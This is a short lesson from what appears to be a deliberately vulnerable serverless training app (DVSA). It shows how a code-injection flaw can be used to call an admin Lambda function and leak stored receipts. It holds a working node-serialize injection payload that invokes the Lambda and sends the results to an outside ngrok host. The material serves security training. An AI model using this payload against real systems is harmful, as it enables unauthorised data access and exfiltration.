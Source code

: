 # LESSON #3: Sensitive Information Disclosure

An attcker can leverage the [code injection vulnerability](../LESSONS/LESSON_01.md) to invoke an admin functionality that will disclosure all the receipts from the S3 bucket.

Sending the following payload will invoke an admin function that will pack all the receipts within the specified year and month and will created a signed url to download them.
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ADMIN-GET-RECEIPT\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"year\": \"2018\", \"month\": \"12\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"http://0c971764.ngrok.io/lol?data=\"+JSON.stringify(d));}); }()"}
```

As a result: 

![alt signed-url](https://i.imgur.com/yMkJhKi.png)


Pasting the url in the browser will download the receipts form the S3 bucket:

![alt receipts](https://i.imgur.com/OXDQC9K.png)

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)
